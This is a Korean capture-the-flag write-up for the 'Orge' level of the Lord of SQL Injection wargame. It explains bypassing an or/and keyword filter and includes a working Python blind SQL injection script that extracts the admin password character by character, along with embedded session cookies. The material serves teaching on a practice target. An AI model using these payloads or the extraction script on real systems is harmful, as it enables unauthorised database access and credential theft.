 # **Orge**
## 1. 문제의도
or 과 and 없이 인젝션을 할 수 있는가?
정확히 admin의 password 필드의 값을 얻어 낼 수 있는가?

## 2. 코드
    <?php
      include "./config.php";
      login_chk();
      dbconnect();

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~");

      if(preg_match('/or|and/i', $_GET[pw]))
        exit("HeHe");

      $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";
      echo "<hr>query : <strong>{$query}</strong><hr><br>";
      $result = @mysql_fetch_array(mysql_query($query));

      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>";

      $_GET[pw] = addslashes($_GET[pw]);
      $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";
      $result = @mysql_fetch_array(mysql_query($query));

      if(($result['pw']) && ($result['pw'] == $_GET['pw']))
        solve("orge");

      highlight_file(__FILE__);
    ?>

### 1. preg_match()
이전 다크엘프 문제와 동일하게 or과 and를 사용할 수 없습니다.

    prob | _ | . | () | or | and

### 2. query

    select id from prob_orge where id='guest' and pw='{$_GET[pw]}' # 이전 쿼리

    select pw from prob_orge where id='admin' and pw='{$_GET[pw]}' # 결론적인 쿼리

접근 할 수 있는 부분 : pw GET parameter

### 3. if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");

pw가 GET 파라미터의 pw와 같을 때, 클리어 처리가 됩니다. 따라서 우리는 정확히 패스워드를 알 수 있어야 합니다.

### 4. $_GET[pw] = addslashes($_GET[pw]);

addslashes는 특수문자로 부터 발생할 수 있는 에러를 방지하고자 사용합니다.

    example)
    before:
      'test'입니당

    after:
      \'test\'입니당

## 3. Solution
우리가 현재 놓인 상황은 계속 사용해 오던 or 와 and를 사용할 수 없다는 것과 패스워드를 얻어 오는 것 뿐만 아니라 우리가 그것이 무엇인지를 알 수 있어야 한다는 점입니다.

### 1. || 와 && 사용
우리는 or 과 and 대신 C에서 프로그래밍을 할 때처럼 || 그리고 &&로 대신하여 사용할 수 있다.  
|| 는 Oracle 에서는 CONCAT 과 같이 사용되는 것 같기도 하다.

    pw="password" and id="admin" 과 pw="password"&&id="admin" 은 같은 맥락이다.

### 2. 패스워드의 길이를 알아보자, length
MySQL을 하다보면 length 라는 함수가 있음을 알 수 있습니다.  
초반에 시도 했던 영어 writeup 에 적어 놨던걸로 기억하지만 다시 정리 해보자면  
length (str) 의 형태를 띄는 함수입니다. str의 길이를 반환 해줍니다. 따라서 아래와 같은 조건식은 성립합니다.

    (pw="password" 일때)
    length(pw)=8 // 성립!!

### 3. 조건에 따라서 다른 값, if
우리는 프로그래밍을 할 때 if라는 것을 많이 사용합니다.  
if의 조건문이 성립하면 아래의 내용을 실행하고  
아닐경우 else의 내용을 실행합니다.

이것도 그와 매우 흡사합니다.  
if(조건문, true반환값, false반환값)

이해가 안 된다면 그럼 아래의 예제를 보면 이해가 될것입니다.  

    if(1=1,1,0) // 1 반환
    if(1=0,1,0) // 0 반환

### 4. 문자열을 잘라보자, substr, etc...
우리는 문자열 전부를 알지는 못하기 때문에 일부분만을 이용해서 전체를 알아보려는 시도를 할 수 있다.  
그러기 위해 우리는 mysql의 이런 함수들을 사용할 수 있다.

    mid | substr | substring | left | right

    기타 문자연 처리 함수들

    LTRIM | RTRIM | TRIM // 왼쪽, 오른쪽의 공백을 지워준다.

    replace(src, from, to) src에서 from을 to로 치환합니다.

    instr(src, find_str) src에서 find_str을 처음 찾은 인덱스를 반환합니다.

    ascii(char) char의 아스키 값을 반환합니다

### 5. 와일드 카드
우리는 like 함수를 통해서 문자열에 무엇이 속해있는지 같은지를 체크할 수 있습니다. str%, %str, %str%, __(여백문자)

    pw="password" 일때

    pw like "p%" // true
    pw like "pa%" // true

    pw like "________" // true

    pw like "__" // false

    pw like "%o_d" // true


### My Answers :

우리는 이 문제를 풀때에 있어 브라우저의 주소의 페이로드를 바꿔가며 입력해 보는 방법은 할 수 없습니다. 아, 물론 삽질 정신이 가득한 사람이라면은 가능 하겠지만.. 전 Python 코드를 작성하여 찾아 보았습니다.

    #-*- coidng: utf-8 -*-
    #Los / 07. Orge

    import urllib2

    result = '' # I will save key to this var
    url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw={}" # url. we can insert data into {} by using format()
    length = 0

    def getContent(value, purpose):
	    req = urllib2.Request(url.format(value))

	    req.add_header('User-Agent', "Mozila/5.0")  # Browser info
	    req.add_header('Cookie', 'PHPSESSID=uvjnp5kaltqk6o7q6v629hbqp4')  # PHP SESSION ID
	    req.add_header('__cfduid', 'd94c5132db81e12788364d9a966964cd31507633746')

	    content = urllib2.urlopen(req).read()

	    if content.find(purpose) != -1:
		    return True

    for i in range(1,1000):
	    print i

        if getContent("'||length(pw)='" + str(i), "Hello admin"): # guest pw length = 15 & admin pw length = 8
		length = i
		print "length is", length
		break

    for i in range(0, length):
        for j in range(32,127): # 표시 가능한 구역
		if j == 37:
		  continue
		print result + chr(j)
		if getContent("'||pw like '" + result + chr(j) + '%25', "Hello admin"):
		  result += chr(j)
		  print "find key ::", i, j, "::", result
		  break

    if len(result) == length:
	  print "Failed.."
	  exit(0)

    print "success", result.lower()

    # Result 6c864dec

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.m)**
